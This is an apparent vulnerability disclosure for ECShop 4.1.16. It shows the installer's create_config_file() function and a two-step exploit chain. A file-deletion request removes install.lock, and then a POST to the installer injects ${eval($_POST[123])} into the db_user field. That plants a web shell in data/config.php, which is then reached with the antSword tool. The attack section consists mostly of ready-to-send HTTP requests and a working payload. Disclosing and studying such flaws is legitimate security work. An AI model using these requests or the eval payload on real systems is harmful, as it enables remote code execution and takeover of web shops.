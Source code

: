 # ECShop 4.1.16 Code Execution Vulnerability
## Vulnerability Position
In the create_config_file() function on line 313 of the \source\ecshop\install\includes\lib_installer.php file
```
function create_config_file($db_host, $db_port, $db_user, $db_pass, $db_name, $prefix, $timezone)
{
    global $err, $_LANG;
    $db_host = construct_db_host($db_host, $db_port);

    $content = '<?' ."php\n";
    $content .= "// database host\n";
    $content .= "\$db_host   = \"$db_host\";\n\n";
    $content .= "// database name\n";
    $content .= "\$db_name   = \"$db_name\";\n\n";
    $content .= "// database username\n";
    $content .= "\$db_user   = \"$db_user\";\n\n";
    $content .= "// database password\n";
    $content .= "\$db_pass   = \"$db_pass\";\n\n";
    $content .= "// table prefix\n";
    $content .= "\$prefix    = \"$prefix\";\n\n";
    $content .= "\$timezone    = \"$timezone\";\n\n";
    $content .= "\$cookie_path    = \"/\";\n\n";
    $content .= "\$cookie_domain    = \"\";\n\n";
    $content .= "\$session = \"1440\";\n\n";
    $content .= "define('EC_CHARSET','".EC_CHARSET."');\n\n";
    $content .= "define('ADMIN_PATH','admin');\n\n";
    $content .= "define('AUTH_KEY', 'this is a key');\n\n";
    $content .= "define('OLD_AUTH_KEY', '');\n\n";
    $content .= "define('API_TIME', '');\n\n";
    $content .= "define('STORE_KEY','".md5(microtime() . mt_rand(0,1000))."');\n\n";
    $content .= '?>';


    $fp = @fopen(ROOT_PATH . 'data/config.php', 'wb+');
    if (!$fp)
    {
        $err->add($_LANG['open_config_file_failed']);
        return false;
    }
    if (!@fwrite($fp, trim($content)))
    {
        $err->add($_LANG['write_config_file_failed']);
        return false;
    }
    @fclose($fp);

    return true;
}
```
We control the variable value of $db_host, $db_port, $db_user, $db_pass, $db_name, $prefix, $timezone by constructing these variable values, and write them into the data/config.php file, resulting in arbitrary code execution.
## Vulnerability Verification
In order to achieve the purpose of file writing, we need to use CVE-2023-39112 to delete the specified file. The following is the request packet to delete the file, and the administrator cookie needs to be supplemented.
```
POST /admin/database.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

act=remove&file[]=../../data/install.lock
```

![image](https://github.com/Luci4n555/vul_report/assets/116565145/edfd2d8c-059c-4586-a133-d71c8a94cd91)

Then we exploit this vulnerability to write malicious code.
```
POST /install/index.php?step=create_database HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Connection: close

db_host=localhost&db_port=3306&db_user=${eval($_POST[123])}&db_pass=&db_name=&lang=zh_cn
```
![image](https://github.com/Luci4n555/vul_report/assets/116565145/d3dd5250-9096-450d-919a-ad28d8384ba2)

We can see that the file source\ecshop\data\config.php has inserted malicious code.

![image](https://github.com/Luci4n555/vul_report/assets/116565145/43be8b14-1387-455b-9e10-3877d576569b)


Finally we use the antSwordPublic tool to connect and test code execution.
The link address is: http://127.0.0.1/data/config.php, the password is 123.

![image](https://github.com/Luci4n555/vul_report/assets/116565145/2dd54abb-0ee7-4167-a0a6-9e0cc3259624)

Successful execution of arbitrary code.
